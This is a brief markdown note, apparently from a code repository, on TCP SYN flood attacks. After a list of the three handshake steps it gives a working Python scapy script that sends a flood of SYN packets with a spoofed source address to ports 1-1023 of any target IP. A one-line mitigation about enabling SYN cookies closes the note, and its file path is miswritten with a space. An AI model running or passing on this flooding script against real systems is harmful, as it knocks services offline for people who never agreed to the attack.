 # TCP SYN flood attack

## TCP three-way handshake

1. `SYN` segment;
2. `SYNACK` segment;
3. `ACK` segment;

## How to

send a lot of TCP SYN segments to the target.

### code

```py
#! /usr/bin/python3

import sys
from scapy.all import srflood, IP, TCP

if len(sys.argv) < 3:
    print(sys.argv[0] + ' <spoofed_source_ip> <target_ip>')
    sys.exit(0)

packet = IP(src=sys.argv[1], dst=sys.argv[2]) / \
    TCP(dport=range(1, 1024), flags="S")

srflood(packet)

```

## TODO: Enable SYN cookies to avoid SYN flood attack

```bash
echo 1 > /proc/sys/net/ipv4/tcp syncookies
```